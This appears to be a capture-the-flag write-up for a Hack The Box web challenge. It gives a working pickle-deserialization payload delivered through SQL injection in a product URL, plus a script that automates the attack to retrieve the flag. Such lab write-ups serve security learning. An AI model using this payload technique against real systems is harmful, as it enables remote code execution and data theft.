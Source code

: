 # C.O.P. - HTB Challenge

### Pickle

As the Title of the challenge says we're talking about Pickle Deserialization.
Pickle is a python library that serialize and deserialize data...in unsecure way.

It this challenge it takes data from the db, serialize it in base64 and give it back deserialized to the html webpage.

### SQL

Inside the "product" page we can see the products that are called via URL with the id: /views/1

```python
    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```

### Exploit

- https://davidhamann.de/2020/04/05/exploiting-python-pickle/
- https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
# Copy the flag to the static folder which we have access to.
        cmd = ('cp flag.txt application/static/.')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
```

Run the script to obtain the base64 string, the pickles will take care of it, then copy the ouptut and paste it in the url with the SQL Injection.

```
/view/' UNION SELECT 'gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg==

/view/'%20UNION%20SELECT%20'gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg==
```

Navigate to http://../static/flag.txt to see the content of the flag


## Python Script
```python
import requests
import sys

if len(sys.argv) != 2:
    print("Usage: python3 script.py <URL>")
    sys.exit(1)

# Payload.
payload = "'%20UNION%20SELECT%20'gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg=="

clean_url = sys.argv[1]
payload_url = clean_url + "/view/" + payload
url_flag = clean_url + "/static/flag.txt"

if not clean_url.startswith('http://') and not clean_url.startswith('https://'):
    clean_url = 'http://' + clean_url
    
# Send the request
try:
    response = requests.get(payload_url)

    if response.status_code == 200:
    	print("######################################################")
    	print("Flag Copied to " + str(url_flag))
    	print("######################################################")
    else:
        print(f'Errore {response.status_code}: GET request failed.')
except requests.exceptions.RequestException as e:
    print(f'Errore nella richiesta: {e}')

def flag():
    try:
        response_flag = requests.get(url_flag)

        if response_flag.status_code == 200:
            data = response_flag.content
            decoded_data = data.decode('utf-8')
            print(" ")
            print("THE FLAG IS:")
            print("############")
            print(" ")
            print(decoded_data)
        else:
            print(f'Errore {response_flag.status_code}: GET request for the flag failed.')
    except requests.exceptions.RequestException as e:
        print(f'Errore nella richiesta del flag: {e}')

flag()
```
